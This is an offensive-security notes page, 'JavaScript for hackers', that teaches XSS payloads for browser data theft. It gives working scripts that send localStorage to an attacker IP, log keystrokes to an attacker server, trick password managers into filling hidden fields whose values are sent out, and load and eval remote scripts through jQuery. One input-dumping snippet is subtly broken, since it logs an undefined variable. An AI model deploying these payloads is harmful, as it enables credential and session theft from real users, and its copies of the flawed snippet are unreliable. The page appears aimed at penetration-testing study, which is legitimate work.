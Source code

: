 ```yaml
---
title: JavaScript for hackers
tags:
  - web-app
  - pentesting
  - javascript
---
```

## Useful JavaScript APIs
Notes on some useful JavaScript APIs to interact with the browser maliciously.
### [Window](https://developer.mozilla.org/en-US/docs/Web/API/Window)
Represents the window the entire document (the HTML response from the server) lives. This gives us access to the URL via the *location* property and *localStorage* which may contain secrets.

Treat Window as global, any properties set here or any methods we have access can be used in the global context, like `alert()`. `alert()`is one of the primary methods we can use to prove that a [XSS vulnerability](./cross-site-scripting) exists in an application.
#### Exposing storage
Browsers cache important secrets in the `Window` namespace of a user's browsing session. With XSS, we can exfiltrate this data by targeting the [`localStorage`](https://developer.mozilla.org/en-US/docs/Web/API/Window/localStorage) and [`sessionStorage`](https://developer.mozilla.org/en-US/docs/Web/API/Window/sessionStorage) objects in the `Window` namespace:

```javascript
fetch("http://ATTACKER_IP_ADDRESS/exfil?data=" + encodeURIComponent(JSON.stringify(localStorage)))
```
### [Document](https://developer.mozilla.org/en-US/docs/Web/API/Document)
A powerful API that allows us to interact with the document object model (DOM) of the web page we're attacking. The DOM provides us with access to all text inputs, usernames, passwords, cookies, etc. as well as all keypress events.

#### Dumping all input forms
A useful method in the `Document` namespace is [`getElementsByTagName()`](https://developer.mozilla.org/en-US/docs/Web/API/Document/getElementsByTagName). For example, let's dump the contents of all forms in the document that are tagged as `input`:

```javascript
let inputForms = document.getElementsByTagName("input");

for (let inputForm of inputForms) {
    console.log(input.value);
}
```

How do we know what DOM HTML tags are interesting? The entire HTML DOM spec is actually provided [here](https://html.spec.whatwg.org/multipage/).

#### Logging all keystrokes
Another fun technique to disclose information from a victim using the `Document` namespace is key logging. Whenever a [`keydown`](https://developer.mozilla.org/en-US/docs/Web/API/Element/keydown_event) event occurs, we can execute some JavaScript to retrieve the keys pressed by the victim:

```javascript
function keyLog(event) {
    console.log(event.key);
}

document.addEventListener('keydown', keyLog);
```

More information about the `addEventListener()` API can be found [here](https://developer.mozilla.org/en-US/docs/Web/API/EventTarget/addEventListener).

Let's notice something about the above code - it only logs the key presses to the console, not super useful for an attacker unless I can somehow view the victim's console! Instead, we need to exfiltrate this data.

Using the [`Fetch`](https://developer.mozilla.org/en-US/docs/Web/API/Fetch_API/Using_Fetch) API, we can coerce the victim into making a web request to a server we own. The result of the `fetch` action doesn't matter either because `fetch` just returns a [`Promise`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Promise). This means we can avoid crashing our script when the `fetch` action fails. Now, when we log a keystroke from the user, we can append the keystroke to a web request targeted at a server we host, allowing us to see the victim's keystrokes:

```javascript
function keyLog(event) {
    fetch('http://<WEB_SERVER_IP_ADDRESS>/k?key=' + event.key);
}

document.addEventListener('keydown', keyLog);
```
#### Dumping credentials from password managers
Password managers are great; you should definitely be using one! But this particular script attacks password managers into autofilling HTML DOM `input` objects that look like username and password prompts.

Using this XSS payload, we modify the document, adding input forms for a username and a password, hide them with an opacity of 0, and exfiltrate the username and password values after waiting 5 seconds for the password manager to input data into the new forms:

```javascript
let body = document.getElementsByTagName("body")[0]
var u = document.createElement("input");
u.type = "text";
u.style.position = "fixed";
u.style.opacity = "0";
var p = document.createElement("input");
p.type = "password";
p.style.position = "fixed";
p.style.opacity = "0";
body.append(u)
body.append(p)
setTimeout(function() {fetch("http://ATTACKER_IP_ADDRESS/k?u=" + u.value + "&p=" + p.value)}, 5000);
```

### [jQuery](https://en.wikipedia.org/wiki/JQuery)
#### Using jQuery to load remote scripts
Probably not super useful is Cross-Origin protections are an issue, however, if a server provides clients (browsers) with jQuery as a resource, we can use the [`getScript()`](https://api.jquery.com/jquery.getscript/) method to load a script from an arbitrary location, either locally or with a remote URI, and execute a callback function when the script is loaded successfully. Here's an example:

```javascript
jQuery.getScript('http://ATTACKER_IP_ADDRESS/dump-password.js', function(script, textStatus, jqXHR) { eval(script); });
```

We can use great functions like [`atob()`](https://developer.mozilla.org/en-US/docs/Web/API/Window/atob), [`btoa()`](https://developer.mozilla.org/en-US/docs/Web/API/Window/btoa), and [`eval()`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/eval) to bypass any encoding issues upon delivery. It's likely you'll need to convert the result of the `getScript()` operation to ASCII using `btoa()` to avoid runtime exceptions. The code you're injecting into probably won't handle the return value of `getScript()` well - it returns a callback object.